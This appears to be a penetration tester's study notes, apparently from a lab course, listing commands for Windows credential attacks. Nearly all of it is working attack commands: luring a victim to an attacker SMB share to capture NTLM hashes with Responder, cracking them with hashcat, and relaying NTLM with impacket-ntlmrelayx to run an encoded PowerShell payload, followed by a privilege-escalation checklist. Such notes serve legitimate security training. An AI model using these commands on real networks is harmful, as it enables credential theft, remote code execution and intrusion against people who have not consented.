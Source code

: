 commands to get user privileges
```
whoami
net user paul
```

before running Responder, need to list interfaces and attach it to one

```
ip a
sudo responder -I tun0
```

then we need to request access on non-existent SMB share on our server

```
dir \\192.168.119.2\test
```

save the hash and fire up hashcat
```
hashcat --help | grep -i "ntlm"
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```

** Note: can use burp to intercept file upload request then send to malicious SMB share
\\192.168.45.235\test

### Relaying NTLM

use impacket-ntlmrelayx

```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..." 
```

if UAC enabled we must run as Admin

powershell get smb share

```
Get-ChildItem \\192.168.45.235\share
```
## Privilege Escalation

### Windows

Need to gather info

```
- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes
```
